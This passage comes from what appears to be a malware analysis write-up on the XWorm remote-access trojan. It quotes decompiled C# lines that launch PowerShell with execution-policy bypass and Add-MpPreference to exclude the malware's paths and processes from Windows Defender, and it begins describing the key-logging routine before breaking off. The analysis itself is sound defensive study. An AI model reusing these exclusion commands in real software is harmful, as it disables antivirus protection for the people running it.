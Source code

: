 ```c#
processStartInfo.Arguments = "-ExecutionPolicy Bypass Add-MpPreference -ExclusionPath '" + ACX0qTJzEzq40qP5qFxb.Path_to_running_process + "'";
```
This adds an exclusion to Windows Defender for a directory/file path located at ACX0qTJzEzq40qP5qFxb.Path_to_running_process. This will exclude that file/directory from Windows Defender scans.
Command 2:
```c#
processStartInfo.Arguments = "-ExecutionPolicy Bypass Add-MpPreference -ExclusionProcess '" + Process.GetCurrentProcess().MainModule.ModuleName + "'";
```
This adds an exclusion of the currently running process' module name, Process.GetCurrentProcess().MainModule.ModuleName. It will exclude this process from Windows Defender so that its actions are not tampered with.
Third Command:
```c#
processStartInfo.Arguments = string.Concat(new string[]
{
    "-ExecutionPolicy Bypass Add-MpPreference -ExclusionPath '",
    String_Class.conf_7,
    "\\\\\\\",
    String_Class.conf_8,
    "'"
});
```
This adds another exclusion for a directory or file path that could be specified by String_Class.conf_7 and String_Class.conf_8. These strings probably refer to some path and filename where the WmiPrvSE.exe or some other executable may be placed.
The Fourth Command:
```c#
processStartInfo.Arguments = " -ExecutionPolicy Bypass Add-MpPreference -ExclusionProcess ' " + Path.GetFileName(String_Class.conf_8) + "'";
```
It adds exclusion for the file specified by String Class:conf_8, which, in this case, is USB.exe. Thus, it also excludes this particular process-USB.exe-from Windows Defender scanning.

## Key Logging
The program is mostly a key logger because of it key logging routine which depends on three elements:
- hooking_routin
- clipboard_monitoring_applications
- take_debuging_prevs

![](/assets/images/malware-analysis/Xworm/key_logging_1.png)
 
## Hooking routine 
